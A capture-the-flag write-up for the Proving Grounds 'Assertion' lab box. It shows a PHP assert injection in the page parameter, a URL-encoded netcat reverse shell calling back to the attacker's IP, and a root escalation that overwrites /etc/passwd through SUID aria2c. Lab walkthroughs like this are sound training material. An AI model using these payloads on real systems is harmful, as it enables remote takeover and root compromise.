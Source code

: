 ```yaml
---
layout: default
title: Assertion
parent: Proving Grounds Play
nav_order: 29
---
```


# Scanning

---

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/assertion101]
└─$ sudo nmap -Pn -p- -sC -sV -T4 --open 192.168.232.94
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-16 19:19 EST
Nmap scan report for 192.168.232.94
Host is up (0.062s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 6e:ce:aa:cc:02:de:a5:a3:58:5d:da:2b:ef:54:07:f9 (RSA)
|   256 9d:3f:df:16:7a:e1:59:58:84:4a:e3:29:8f:44:87:8d (ECDSA)
|_  256 87:b5:6f:f8:21:81:d3:3b:43:d0:40:81:c0:e3:69:89 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Assertion
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.26 seconds

```

# Enumeration

---

## Users

## 80 | HTTP

![index](../../../assets/images/ctfs/proving_grounds/assertion/index.png)

The URL looks susceptible to LFI, but we get a custom message after a simple test.

![brother](../../../assets/images/ctfs/proving_grounds/assertion/brother.png)

# Exploitation

---

Reaching the following page from HackTricks there are some _LFI via PHP's 'assert'_ options when the site appears to be filtering traversal strings, such as this site is doing.

[HackTricks File Inclusion Page](https://book.hacktricks.xyz/pentesting-web/file-inclusion)

```bash
http://192.168.232.94/index.php?page=%27%20and%20die(system(%22whoami%22))%20or%20%27
```

![whoami](../../../assets/images/ctfs/proving_grounds/assertion/whoami.png)

Generate a reverse shell with revshellgen

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/assertion101]
└─$ revshellgen -i 192.168.45.217 -p 9001 -t nc-mknod

[+] Reverse shell command:

rm /tmp/l;mknod /tmp/l p;/bin/sh 0</tmp/l | nc 192.168.45.217 9001 1>/tmp/l

┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/assertion101]
└─$ urlencode "rm /tmp/l;mknod /tmp/l p;/bin/sh 0</tmp/l | nc 192.168.45.217 9001 1>/tmp/l"
rm%20%2Ftmp%2Fl%3Bmknod%20%2Ftmp%2Fl%20p%3B%2Fbin%2Fsh%200%3C%2Ftmp%2Fl%20%7C%20nc%20192.168.45.217%209001%201%3E%2Ftmp%2Fl

```

Executing the following payload we get a reverse shell in our netcat listener.

```bash
URL: 192.168.232.94/index.php?page=' and die(system("rm%20%2Ftmp%2Fl%3Bmknod%20%2Ftmp%2Fl%20p%3B%2Fbin%2Fsh%200%3C%2Ftmp%2Fl%20%7C%20nc%20192.168.45.217%209001%201%3E%2Ftmp%2Fl")) or '


┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/assertion101]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [192.168.45.217] from (UNKNOWN) [192.168.232.94] 59352
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

# Post-Exploitation

---

## Locate id_rsa

Within _/var/www/html_ there is a _.todeletelater_ directory which contains a _id_rsa_ private key.

```bash
www-data@assertion:/var/www/html$ ls -la
total 196
drwxr-xr-x 9 root root  4096 Jan 16  2020 .
drwxr-xr-x 3 root root  4096 Sep  8  2020 ..
drwxr-xr-x 2 root root  4096 Jan 16  2020 .todeletelater
drwxr-xr-x 2 root root  4096 Jan 16  2020 Source
-rwxr-xr-x 1 root root 20735 Jan 16  2020 about.php
-rwxr-xr-x 1 root root 22301 Jan 16  2020 blog-single.php
-rwxr-xr-x 1 root root 15274 Jan 16  2020 blog.php
-rwxr-xr-x 1 root root 11556 Jan 16  2020 contact.php
drwxr-xr-x 2 root root  4096 Jan 16  2020 css
drwxr-xr-x 2 root root  4096 Jan 16  2020 fonts
-rwxr-xr-x 1 root root 17070 Jan 16  2020 gallery.php
drwxr-xr-x 9 root root  4096 Jan 16  2020 img
-rwxr-xr-x 1 root root 36971 Jan 16  2020 index.php
drwxr-xr-x 2 root root  4096 Jan 16  2020 js
drwxr-xr-x 2 root root  4096 Jan 16  2020 pages
-rwxr-xr-x 1 root root 23805 Jan 16  2020 schedule.php

www-data@assertion:/var/www/html$ cd .todeletelater/
www-data@assertion:/var/www/html/.todeletelater$ ls -la
total 12
drwxr-xr-x 2 root root 4096 Jan 16  2020 .
drwxr-xr-x 9 root root 4096 Jan 16  2020 ..
-r--r--r-- 1 root root 1766 Jan 16  2020 id_rsa

```

Looking at _/home_ there are two user directories: _fnx_ and _soz_

Deadend

## Check SUID Permissions

```bash
www-data@assertion:/dev/shm$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/bin/at
/usr/bin/aria2c
/usr/bin/newgrp
/usr/bin/newgidmap
```

_/usr/bin/aria2c_ is interesting.

We can use _aria2c_ to overwrite files we download from the attack machine.

Let's add a user to the /etc/passwd file on our attack machine and then upload to the target.

The following will add a root user with the password _i<3hacking_

```bash
evil:$1$/UTMXpPC$Wrv6PM4eRHhB1/m1P.t9l.:0:0:evil:/home/evil:/bin/bash
```

![evil](../../../assets/images/ctfs/proving_grounds/assertion/evil.png)

Now move to the _/etc_ directory on the target and upload our malicious _passwd_ file

```bash
www-data@assertion:/etc$ aria2c -o passwd http://192.168.45.217:8000/passwd --allow-overwrite=true

11/17 02:51:11 [NOTICE] Downloading 1 item(s)
\
11/17 02:51:11 [NOTICE] Download complete: /etc/passwd

Download Results:
gid   |stat|avg speed  |path/URI
======+====+===========+=======================================================
87fe7c|OK  |        n/a|/etc/passwd

Status Legend:
(OK):download completed.


```

Now we can switch user's to our _evil_ user and get a root shell.

```bash
www-data@assertion:/etc$ su evil
Password:
root@assertion:/etc# id
uid=0(root) gid=0(root) groups=0(root)
root@assertion:/etc# whoami
root

```
